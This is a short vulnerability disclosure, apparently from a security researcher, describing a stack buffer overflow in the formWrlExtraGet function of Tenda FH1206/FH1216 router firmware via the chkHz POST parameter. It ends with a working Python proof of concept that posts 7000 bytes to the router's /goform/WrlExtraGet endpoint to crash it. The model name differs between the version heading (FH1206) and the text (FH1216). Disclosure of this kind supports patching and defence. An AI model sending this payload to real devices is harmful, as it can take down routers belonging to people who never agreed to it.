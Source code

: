 

# formWrlExtraGet

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **formWrlExtraGet** function. The function receives the `chkHz` parameter from a POST request. ` strcat(v60, src);` The statement will cause a buffer overflow. The `chkHz` value provided by the user may exceed the capacity of the `v60` array, thereby triggering this security vulnerability.





## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WrlExtraGet"
payload = b"a"*7000

data = {"chkHz": payload}
response = requests.post(url, data=data)
print(response.text)
```

